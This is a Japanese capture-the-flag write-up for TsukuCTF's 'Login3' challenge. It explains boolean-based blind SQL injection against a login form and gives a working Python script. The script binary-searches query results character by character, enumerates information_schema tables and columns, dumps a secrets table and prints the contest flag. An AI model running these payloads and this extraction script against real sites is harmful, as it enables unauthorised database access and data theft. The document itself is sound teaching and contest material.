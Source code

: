 ```yaml
---
title: Login3
description: Blind SQL injection
author: rikuta0811_dash
genre: Web
solver: 9
point: 472
---
```


# Login 3

> 筑紫くんは、これなら情報が流出するはずがないと自信満々です。果たして...
>
> https://tsukuctf.sechack365.com/problems/login3
>
> ※ この問題では/problems/login3 以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3 がセットで SQL injection の問題になっています。
Login3 では、Blind SQL injection というテクニックが要求されます。

Login 1, 2 と同様に、Username を `' or 1=1 ; --` としてログインすると、ログインには成功しますが、ユーザー名等は表示されません。したがって、SQL injection に対して脆弱ではあるものの、injection した SQL 文の結果を確認することができません。
ここで、Username を `' or 1=2 ; --`とすると、ログインできませんでしたと表示されます。ということは、`1=1`や`1=2`の部分に bool 値をとる式を与えれば、その結果は取得できるということです。これを積み重ねて DB 内の情報を抜く手法は Blind SQL injection と呼ばれます。

information_schema からの情報取得等の実行したい query に対して、「query の実行結果の i 文字目は ascii コードで x より大きいか?」という bool 値をとる query を送信し、その bool 値を見ることで、2 分探索で query 結果を取得していきます。流石に手動で入力するのは面倒くさいので、コードを書くことにします。

```python:blind.py
def _execAnyQuery_core(query, pos, mid):
    url = "https://tsukuctf.sechack365.com/problems/login3/login.php"

    #queryの pos文字目がasciiコードでmidより大きければtrue
    params={
        "name":"' or ascii(substring(({0}),{1},1))>={2} ; -- ".format(query,pos,mid),
        "password":"a"
    }
    page = requests.post(url, data=params)

    return "ようこそ" in page.text

def _execAnyQuery(query, pos):
    """
    2分探索でqueryの実行結果のpos文字目を取得する。
    """
    low = 0
    high = 256
    while high-low>1:
        mid = (high+low)//2
        if _execAnyQuery_core(query, pos, mid):
            low = mid
        else:
            high = mid
    return low

def execAnyQuery(query):
    i = 1
    while True:
        char = int(_execAnyQuery(query, i))
        if char==0:
            return
        print(chr(char), end="")
        i+=1

execAnyQuery("select version()")
# >> 8.0.26
```

あとは、login2 と同様にテーブルを取得していきます。

```python:blind.py
for i in range(100):
    execAnyQuery("select distinct table_name from information_schema.columns limit 1 offset {0}".format(i))
    print()
# urtla_secret_tsukushiというtableがあることがわかる。

for i in range(10):
    execAnyQuery("select distinct column_name from information_schema.columns where table_name = 'urtla_secret_tsukushi' limit 1 offset {0}".format(i))
    print()

for i in range(33):
    execAnyQuery("select secret from urtla_secret_tsukushi limit 1 offset {0}".format(i))
# urtla_secret_tsukushiテーブルがidとsecretのカラムを持つことがわかる。

for i in range(33):
    execAnyQuery("select secret from urtla_secret_tsukushi limit 1 offset {0}".format(i))
#フラグが表示される。
```

フラグは

```txt
TsukuCTF{U_Are_Geni0us_T$UKUSH1}
```
